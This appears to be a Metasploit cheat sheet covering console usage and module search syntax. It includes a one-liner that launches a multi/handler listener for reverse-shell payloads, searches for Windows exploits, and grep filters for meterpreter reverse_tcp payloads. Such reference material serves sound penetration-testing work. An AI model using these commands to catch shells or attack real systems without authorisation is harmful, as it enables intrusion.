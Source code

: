 Running msfconsole via one-liner

```
msfconsole -qx "use exploit/multi/handler; set PAYLOAD <payload>; set LHOST <attack_ip>; set LPORT <attack_port>; run"
```

#### Searching 

Searching for Exploits or Modules

```
search --help search <arg>
```

Specific Search

```
search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

Showing All Modules

```
show exploits
show payloads
show auxiliary
```

Grep the Results of a Command

```
grep <arg> <msfconsole command>
grep windows show exploits
grep meterpreter grep reverse_tcp show payloads
```

Grep Options

```
-m, --max-count num      # Stop after num matches
-A, --after-context num  # Show num lines of output after a match
-B, --before-context num # Show num lines of output before a match
-C, --context num        # Show num lines of output around a match
-v, --invert-match       # Invert match
-i, --ignore-case        # Ignore case
-c, --count              # Only print a count of matching lines
-k, --keep-header num    # Keep num lines at start of output
-s, --skip-header num    # Skip num lines of output before attempting match
-h, --help               # Help banner
```

#### Core Commands

```
?                      # Help menu
banner                 # Display a Metasploit banner
cd <directory>         # Change the working directory
color                  # Toggle color
connect <host>         # Communicate with a host
debug                  # Display debugging information
exit                   # Exit the console
features               # Display unreleased features
get <variable>         # Get the value of a variable
getg <variable>        # Get the value of a global variable
grep <arg> <command>   # Grep the output of a command
help                   # Help menu
history                # Show command history
load <plugin>          # Load a plugin
quit                   # Exit the console
repeat <commands>      # Repeat commands
route                  # Route traffic through a session
```
